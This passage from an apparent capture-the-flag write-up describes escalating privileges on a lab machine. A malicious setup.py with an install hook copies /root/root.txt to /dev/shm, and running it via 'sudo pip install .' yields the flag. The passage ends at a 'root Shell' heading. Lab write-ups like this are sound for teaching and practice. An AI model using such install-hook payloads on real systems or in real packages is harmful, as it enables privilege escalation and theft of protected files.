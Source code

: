 That means I’m going to write a malicious `setup.py` file.

### Read root.txt

Make a malicious setup.py file that will get root.txt:

```

from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
    def run(self):
        with open('/root/root.txt', 'r') as fin:
            with open('/dev/shm/0xdf', 'w') as fout:
                fout.write(fin.read())

setup(
    cmdclass={
        "install": Exploit
    }
)

```

From there, just run pip on the local directory:

```

homer@canape:/dev/shm$ ls
setup.py

homer@canape:/dev/shm$ sudo pip install .
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Processing /dev/shm
Installing collected packages: UNKNOWN
  Running setup.py install for UNKNOWN ... done
Successfully installed UNKNOWN

homer@canape:/dev/shm$ ls
0xdf  setup.py

homer@canape:/dev/shm$ cat 0xdf
928c3df1...

```

### root Shell
